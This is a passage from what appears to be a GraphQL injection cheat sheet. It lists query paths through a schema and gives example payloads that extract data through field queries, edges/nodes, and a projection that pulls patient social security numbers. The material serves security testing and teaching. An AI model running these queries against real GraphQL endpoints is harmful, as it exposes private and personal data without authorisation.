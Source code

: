 ```php
- Query (pentest) -> Pentest (lead_pentester) -> Pentester (user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (pentests) -> Pentest (lead_pentester) -> Pentester (user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (query) -> Query (assignable_teams) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (query) -> Query (skills) -> Skill
```


## Methodology

### Extract Data

```js
example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}}
```

![HTB Help - GraphQL injection](https://github.com/khulnasoft/Resources/blob/master/GraphQL%20Injection/Images/htb-help.png?raw=true)



### Extract Data Using Edges/Nodes

```json
{
  "query": "query {
    teams{
      total_count,edges{
        node{
          id,_id,about,handle,state
        }
      }
    }
  }"
} 
```

### Extract Data Using Projections

:warning: Don’t forget to escape the " inside the **options**.

```js
{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
```
